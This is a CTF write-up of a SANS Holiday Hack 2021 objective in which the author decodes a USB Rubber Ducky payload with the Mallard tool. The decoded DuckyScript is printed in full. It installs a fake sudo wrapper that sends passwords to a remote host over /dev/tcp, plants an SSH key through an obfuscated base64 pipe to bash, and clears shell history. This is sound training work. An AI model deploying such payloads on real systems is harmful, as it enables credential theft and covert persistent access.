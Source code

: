 ```yaml
---
title:  "Objective 5: Strange USB Device - 2021 SANS Holiday Hack Challenge"
date:   "2022-01-05 00:05:00 -0800"
categories: HolidayHack2021
header:
 teaser: /assets/images/HolidayHack2021/kringlecon_2021_pic.jpg
---
```


In this challenge, we do some light reverse-engineering on a USB Rubber Ducky.

[Play the 2021 SANS Holiday Hack Challenge](https://2021.kringlecon.com/invite)


## Objective
Assist the elves in reverse engineering the strange USB device.

> A random USB device, oh what could be the matter?
> It seems a troll has left this, right on a silver platter.
> Oh my friend I need your ken, this does not smell of attar.
> Help solve this challenge quick quick, I shall offer no more natter.
> 
> Evaluate the USB data in /mnt/USBDEVICE.

The top of the terminal asks for the username of the troll involved with this attack.

There's also talk on this that's pretty critical: [HIDden Ducky, Deconstructed Payload](https://www.youtube.com/watch?v=tkAYncGF-zw&ab_channel=KringleCon)

## The Challenge

Basically, the summary of the talk is that there's a language that USB rubber duckies use for scripting called DuckyScript. This script then gets encoded to a binary (called inject.bin) and placed on an SD card in the rubber ducky.

The presenter, Kevin Tyers, has created a python script called [Mallard](https://github.com/dagonis/Mallard) that can decode these inject.bin files.

Running "ls -la" from the home directory reveals that this script is already pre-loaded.

First, let's just check out that "/mnt/USBDEVICE" directory:

```bash
cd /mnt/USBDEVICE
ls -la
```
this gives us:
```txt
total 12
drwxr-xr-x 1 root root 4096 Dec  3 16:25 ./
drwxr-xr-x 1 root root 4096 Dec  3 16:25 ../
-rw-r--r-- 1 root root 2090 Nov 30 22:14 inject.bin
```

So that inject.bin is in there (where we would expect it to be).

Let's head back to the home directory and call that mallard script.

```bash
cd ~
python3 mallard.py --file /mnt/USBDEVICE/inject.bin
```

This spits out the DuckyScript for the file.

```
ENTER
DELAY 1000
GUI SPACE
DELAY 500
STRING terminal
ENTER
DELAY 500
GUI -
GUI -
GUI -
GUI -
GUI -
STRING /bin/bash
ENTER
DELAY 500
STRING mkdir -p ~/.config/sudo
ENTER
DELAY 200
STRING echo '#!/bin/bash > ~/.config/sudo/sudo
ENTER
STRING /usr/bin/sudo $@
ENTER
STRING echo -n "[sudo] password for $USER: "
ENTER
STRING read -s pwd
ENTER
STRING echo
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
ENTER
STRING if [ $? -eq 1 ]
ENTER
STRING then
ENTER
STRING echo "$USER:$pwd:invalid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "Sorry, try again."
ENTER
STRING sudo $@
ENTER
STRING else
ENTER
STRING echo "$USER:$pwd:valid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S $@
ENTER
STRING fi
ENTER
STRING fi' > ~/.config/sudo/sudo
ENTER
DELAY 200
STRING chmod u+x ~/.config/sudo/sudo
ENTER
DELAY 200
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bash_profile
ENTER
DELAY 200
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 200
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
STRING history -c && rm .bash_history && exit
ENTER
DELAY 600
GUI q
```

There's no apparent username, but that giant base64 string does look pretty suspicious. Putting this command (without the `| bash`) into our own terminal outputs the following:

```bash
echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```

Looks like we have an SSH key here. The username for it is ickymcgoop.

**Answer:** ickymcgoop